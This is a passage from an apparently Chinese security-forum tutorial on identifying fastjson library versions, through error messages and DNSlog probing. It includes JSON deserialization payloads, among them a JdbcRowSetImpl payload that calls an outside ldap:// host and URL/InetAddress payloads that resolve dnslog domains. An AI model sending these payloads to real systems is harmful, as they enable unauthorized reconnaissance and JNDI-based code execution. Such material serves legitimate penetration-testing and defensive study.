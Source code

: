 ```php
syntax error, expect {, actual EOF, pos 0, fastjson-version 1.2.83
```

`fastjson2`中显示如下：

```php
Illegal syntax: , offset 34, character  , line 1, column 35, fastjson-version 2.0.40 {"@type":"java.lang.AutoCloseable"
```

但是需要注意的是`1.2.76<=version<=1.2.80`的时候，显示的版本都是`1.2.76`，原因是作者写死在代码里了，我提了个`issue`（<https://github.com/alibaba/fastjson/issues/4451>）：  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-ab167d1d5df76001d2a890726659c70dbcd3e050.png)

2.2 dnslog判断法
-------------

**特别说明：**  
`dns`能出网并不代表存在`fastjson`漏洞！！！  
另外，讨论`1.2.24`以前的版本没什么意义，因此基本不会在下文中涉及。

### 2.2.1 判断1.1.15&lt;=version&lt;=1.2.24

正常传参：

```json
{"name":"admin","email":"admin","content":"admin"}
```

`payload15`：

```json
{"name":"admin","email":"admin","content":{"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://aclarecpsj.dgrh3.cn/POC","autoCommit":true}}
```

![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-079066997026a17346914a8d569cb8ead87320f9.png)  
![](https://shs3.b.qianxin.com/attack_forum/2024/06/attach-51447743981c3d5c4b195a57ac3f9fa41dd3d30a.png)

### 2.2.2 判断1.2.37&lt;=version&lt;=1.2.83

`payload16`：

```json
{{"@type":"java.net.URL","val":"http://rpdmvyfajp.dgrh3.cn"}:"aaa"}
```

### 2.2.3 判断1.2.9&lt;=version&lt;=1.2.47

`payload17`：

```json
{"username":{"@type":"java.net.InetAddress","val":"bjmgclhjrs.dgrh3.cn"}, "password":"admin"}
```

需要注意，有时候会报错如下，但是`dnslog`仍然会收到请求，这个是目标服务器的问题，多试就可以了：

